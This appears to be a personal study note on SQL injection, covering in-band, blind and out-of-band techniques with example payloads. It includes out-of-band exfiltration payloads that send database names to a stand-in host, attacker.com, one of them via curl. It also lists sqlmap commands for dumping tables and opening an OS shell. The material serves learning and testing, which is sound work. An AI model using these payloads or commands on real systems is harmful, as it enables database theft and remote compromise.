

---
title:
draft:
tags:
related:
---



## **In‑Band SQL Injection** 

is a type of SQL injection attack where the attacker uses the **same communication channel** to both **inject malicious SQL queries and retrieve the results from the database**.

It is called _in‑band_ because the **data extraction happens in the same channel as the injection**.

#### **Error‑Based SQLi**

Error‑based SQL injection is a technique where an attacker intentionally triggers database errors to extract information from the database. By injecting specially crafted SQL queries, the attacker forces the database management system to generate error messages that reveal sensitive data such as the database name, table names, column names, or even actual data values. Many databases include detailed error messages when a query fails, and poorly configured applications may display these errors directly in the web response. Attackers exploit this behavior by embedding functions or operations in their payloads that cause errors containing useful information, allowing them to retrieve data quickly through the application’s normal response.

#### **Union‑Based SQLi**

Union‑based SQL injection is a technique that uses the SQL `UNION` operator to combine the results of the original query with the results of a malicious query injected by the attacker. The attacker first determines the number of columns returned by the original query and identifies which columns are displayed in the web application’s response. Then they craft a `UNION SELECT` statement that retrieves data from other tables in the database, such as user credentials or sensitive records. Because the `UNION` operator merges the results of two queries with the same structure, the injected query’s results are returned as part of the normal application output, allowing the attacker to directly view extracted database information on the webpage.

- The attacker finds a vulnerable input field (URL parameter, form, cookie, header).
- Injects malicious SQL code.
- The application sends that query to the database.
- The database executes it.
- The results are returned in the **same HTTP response**.

> [!example]-
> Example vulnerable query:
> ```
> SELECT * FROM users WHERE id = '$id';
> ```
> Attacker input:
> ```
> ?id=1' OR '1'='1
> ```
> Resulting query:
> ```
> SELECT * FROM users WHERE id = '1' OR '1'='1';
> ```
> The condition becomes **always true**, so the database returns all rows.

## **Blind-Based SQL Injection**

Blind-based SQL Injection is a class of SQL injection attacks where the application does not return database error messages or visible data directly. Instead, the attacker infers information indirectly through _behavioral changes_, _boolean responses_, or _time delays_.

It is used when the application is vulnerable to SQLi but suppresses output, making classical error-based extraction impossible.

#### **Boolean-Based Blind SQLi**

The application returns different outcomes based on whether the SQL condition is *true* or *false*.  
Examples of observable differences:
- Page content changes  
- Response codes differ  
- Redirect occurs vs. no redirect  
- Content length differs (most common)

**Example Payload**
```
?id=10 AND 1=1     -- True, normal page
?id=10 AND 1=2     -- False, altered page
```

**Goal:** Infer data by asking the database a series of yes/no questions.

---

#### **Time-Based Blind SQLi**

When the application returns identical responses regardless of true/false conditions, the attacker uses database sleep functions to detect conditions based on *response time*.

**Example Payload**
```
?id=10 AND IF(SUBSTRING(@@version,1,1)='5', SLEEP(5), 0)
```

**Goal:** Use controlled delays to extract data bit-by-bit.

## **Out-of-Band SQL Injection**

Out-of-Band SQL Injection is a class of SQL injection attacks where data exfiltration occurs **through external channels** rather than in the HTTP response.

This technique is used when:

- The application does not return errors (no error-based SQLi)
- Boolean/time-based blind SQLi is unreliable
- The application only allows outbound connections to limited hosts

OOB-SQLi requires that the database itself is capable of generating outbound requests (DNS/HTTP/SMB/etc.).

The attacker injects SQL payloads that trigger the database engine to make an outbound connection to a server under the attacker’s control.
Common protocols used:

- **DNS**
- **HTTP/HTTPS**
- **SMB (Windows environments)**

When the database queries the attacker’s controlled domain, information (like data fragments) can be encoded inside the outbound request.

> [!Example]-
> **MSSQL — OOB via DNS (xp_dirtree)**
> ```
> '; exec master..xp_dirtree '\\'+(select top 1 name from master..sysdatabases)+'.attacker.com\test' --
> ```
> **Oracle — OOB via HTTP (UTL_HTTP.REQUEST)**
> ```
> '|| UTL_HTTP.request('http://attacker.com/' || (SELECT banner FROM v$version WHERE ROWNUM=1)) ||
> ```
> **MySQL — OOB via DNS Rebinding (LOAD_FILE trick)**
> ```
> SELECT LOAD_FILE(CONCAT('\\\\',(SELECT user()),'attacker.com\\abc'));
> ```
> **PostgreSQL — OOB via COPY TO PROGRAM (Unix)**
> ```
> COPY (SELECT current_database()) TO PROGRAM 'curl http://attacker.com/?db=$(cat)';
> ```


> [!info] Tools
> ##### SQLMAP
> Enumeration For SQLi
> ```
> sqlmap -u "<url>"
> ```
> ```
> sqlmap -u "<url>" --fingerprint --random-agent
> ```
>```
> sqlmap -u "<url>" --threads=3 --banner --random-agent
> ```
> Error Base 
> ```
> -- Boolian based (Blind)
> -- UNION based
> -- Stacked Queries
> -- Time Based (Blind)
> -- Inline Queries
> sqlmap -r request.txt -p inputvartoFUZZ --random-agent --technique=BUSTEQ..
>```
>```
>sqlmap -r request.txt -p inputvartoFUZZ --random-agent
>```
> Found DBS
> ```
>sqlmap -r request.txt -p inputvartoFUZZ --dbs --batch --random-agent
> ```
> ```
>sqlmap -r request.txt -p inputvartoFUZZ --random-agent --technique=E --current-db
> ```
> Extract Tables From Database
> ```
>sqlmap -r request.txt -p inputvartoFUZZ --technique=E -D databasename --tables --batch
> ```
> Extract columns from tables
> ```
> sqlmap -r request.txt -p inputvartoFUZZ --technique=E -D databasename -T tablename --columns
> ```
> dump table
>```
>sqlmap -r request.txt -p inputvartoFUZZ --technique=E -D databasename -T tablename --dump
>```
>dump columns 
>```
>sqlmap -r request.txt -p inputvartoFUZZ --technique=E -D databasename -T tablename --columns --dump
>```
>RCE 
>```
>sqlmap -u "<url>" --os-shell
>```

> [!hint]
> ```sql
> select schema_name from information_schema.schemata
> ```
> ```sql
> select table_name from information_schema.tables
> ```
> ```sql
> select column_name from information_schema.columns
> ```
> ```sql
> select group_concat(column_name) from information_schema.columns where table_schema=<DSName> and table_name=<TableName>
> ```

